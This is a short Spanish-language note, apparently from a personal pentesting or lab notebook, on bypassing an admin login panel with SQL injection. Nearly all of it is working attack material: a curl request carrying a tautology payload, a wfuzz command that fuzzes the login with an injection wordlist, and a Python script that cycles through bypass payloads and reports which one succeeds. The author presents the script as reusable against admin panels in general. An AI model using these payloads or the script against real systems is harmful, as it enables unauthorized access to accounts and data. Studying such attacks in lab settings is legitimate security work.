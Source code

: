 ```yaml
---
title : SQL Web Panel
published : True
---
```

* <p> Sql injection en panel de login</p>

```python
#Injeccion sql en panel administrador, desde petenciones con curl:
curl -s -X POST "http://10.10.254.165/login.php" -d "username='|| or 1=1-- - &password=-- -" -i

#Injeccion sql en base a un wordlist de injeccion sql:
wfuzz -t 20 -c -z file,wordlists.txt -d "username=FUZZ\&password=FUZZ" http://10.10.254.165/login.php
```
* <p>Sabiendo estos datos puedo crear perfectamente un script en python que aplique injeccion sql en paneles administradores</p>
<p></p>
```python
#!/usr/bin/python
import requests

id_username = 'username'
id_password = 'password'
url = 'http://10.10.254.165/login.php'
 
sql_payload = [

    "' or 1=1-- -",
    "' || or 1=1-- -",
    "' 1=1-- -"

]
for list in sql_payload:
    datos = requests.post(url, data={id_username : list, id_password : list}, allow_redirects=False)
    if datos.status_code != 200:
        print("[+] Injection sql sucess :", list)
        exit()
    print("Failed : ", datos.status_code, list)


```
